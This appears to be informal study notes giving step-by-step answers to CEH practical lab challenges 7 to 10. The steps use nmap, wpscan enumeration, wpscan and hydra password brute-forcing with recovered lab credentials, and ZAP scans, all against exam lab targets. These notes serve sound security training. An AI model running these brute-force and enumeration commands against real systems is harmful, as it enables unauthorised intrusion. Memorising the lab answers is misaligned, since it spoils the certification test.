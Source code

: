 Challenge 7:
You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)
Answer:
probably wordpress
1.	nmap -A -p 8080 192.168.0.0/24 -> www.cehorg.com (192.168.0.222)
2.	may not work ( firefox -> addons -> wappalyzer)
3.	firefox-> 192.168.0.222:8080/CEH/
4.	copy the API token from wpscan.com
5.	to find users in the website and vulnerabilities
6.	wpscan --url http://192.168.0.222:8080/CEH/ --enumerate u,ap --api-token [copied API token]
7.	wpscan --url http://192.168.0.222/CEH/ --api-token [copied api token] --enumerate u,vp --plugins-detection aggressive
8.	we got the usernames
9.	brute force passwords, wpscan --url http://192.168.0.222/CEH/ --passwords /home/attacker/Desktop/password.txt --usernames admin,helen,adam
10.	adam/orange1234

Challenge 8:
You are a penetration tester assigned to a new task. A list of websites is stored in the webpent.txt file on the target machine with the IP address 192.168.10.101. Your objective is to find the Meta-Author of the website that is highlighted in the list. (Hint: Use SMB service) (Format: AA-Aaaaaaa)
Answer: 
1.	hydra -L /home/attacker/Desktop/username.txt -P /home/attacker/Desktop/password.txt smb://192.168.10.101
2.	martin/qwerty
3.	go to places -> network -> smb://192.168.10.101 -> enter credentials
4.	Martin folder -> Music -> webpent.txt
5.	curl -I www.moviescope.com or terminial -> whatweb www.moviescope.com
6.	Meta Author : EC-Council

Challenge 9:
You have recently joined GoodShopping Inc. as a web application security administrator. Eager to understand the security landscape of the company’s website, www.goodshopping.com, you decide to investigate the security updates that have been made over time. Your specific task is to identify the attack category of the oldest Common Vulnerabilities and Exposures (CVEs) affected the website. (Format: aaaaa*aaaa aaaaaaaaaa (AAA) 
Answer:
1.	Parrot -> terminal -> sudo su -> zaproxy
2.	no I don’t want
3.	automated scan
4.	www.goodshopping.com -> attack
5.	alerts
6.	go over all attacks, find the CVE or OWASP dates mentioned ( Vulnerable JS-Library -> CVE-2012-6708)
7.	go to the website mentioned in the CVE or owasp ( https://nvd.nist.gov/vul/CVE....)
8.	Cross-site Scripting(XSS)

Challenge 10:
You are a web penetration tester hired to assess the security of the website www.goodshopping.com. Your primary task is to identify the type of security policies is missing to detect and mitigate Cross-Site Scripting (XSS) and SQL Injection attacks. (Format: Aaaaaaa Aaaaaaaa Aaaaaa)
Answer:
1.	Parrot -> terminal -> sudo su -> zaproxy
2.	no I don’t want
3.	automated scan -> www.goodshopping.com
4.	attack -> alerts
5.	there is an alert which says “Content Security Policy (CSP) header not Set”
